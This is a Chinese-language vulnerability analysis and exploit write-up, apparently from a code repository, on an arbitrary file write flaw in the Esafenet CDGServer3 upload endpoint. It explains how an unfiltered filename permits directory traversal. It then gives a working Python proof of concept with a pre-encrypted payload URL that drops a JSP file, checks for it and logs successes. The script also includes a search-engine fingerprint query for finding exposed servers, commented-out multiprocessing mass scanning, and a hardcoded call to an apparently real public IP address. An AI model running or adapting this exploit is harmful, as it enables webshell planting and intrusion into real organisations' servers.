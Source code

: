 # 漏洞分析

根据web.xml定位找到UploadFileFromClientServiceForClient所对应的类

![image-20230816144841496](images/1.png)

该类存在一个PUT和POST方法，PUT方法会调用POST方法

![image-20230816144856196](images/2.png)

首先会获取包含在 URL 中的查询字符串部分。查询字符串是在 HTTP 请求的 URL 中通过问号 ? 后面附加的一系列参数和值，用于将数据传递给服务器。然后进行解密

![image-20230816144931475](images/3.png)

是通过内部的加解密方式进行的

![image-20230816144943918](images/4.png)

通过&对解密后的字符串进行分割，放入一个数组绿盟，遍历数组匹配对不同参数进行赋值

然后创建一个UploadFileFromClientInfo并对相应参数进行设置

![image-20230816144957708](images/5.png)

获取POST的原始数据，创建FIle对象，因为filename的值没有进行过滤， 所以可以通过目录穿越符来实现对任意文件写入，接下来通过IO流操作写到将POST数据写到对应文件中

# 漏洞复现

使用亿赛通本身的代码对内容进行加密

![image-20230816145140801](images/6.png)

```
# (body="CDGServer3" && body!="DLP") || ((((title="电子文档安全管理系统" && (cert="esafenet" || body="CDGServer3")) || (body="CDGServer3/3g" && body="/help/getEditionInfo.jsp")) || body="CDGServer3/index.jsp") && title!="数据泄露")
import requests
import urllib3
import multiprocessing

urllib3.disable_warnings()

# proxies = {
#     "http": "http://127.0.0.1:7890",
#     "https": "http://127.0.0.1:7890"
# }
data = "hello Test"

def poc(url):
    target = url + "/CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM"

    try:
        r = requests.post(target, data=data, verify=False)
        shell = url + "/tttT.jsp"
        if requests.get(shell).status_code == 200:
            with open("result.txt", "a") as f:
                f.write(shell + "\n")
                f.close()
            print(shell)
    except Exception as e:
        pass

if __name__ == "__main__":
    # with open("ip.txt") as file:
    #     urls = [line.strip("\n") for line in file]
    # with multiprocessing.Pool() as pool:
    #     pool.map(poc,urls)
    poc("http://117.107.159.130:8888")
```

![image-20230816145206688](images/1.png)

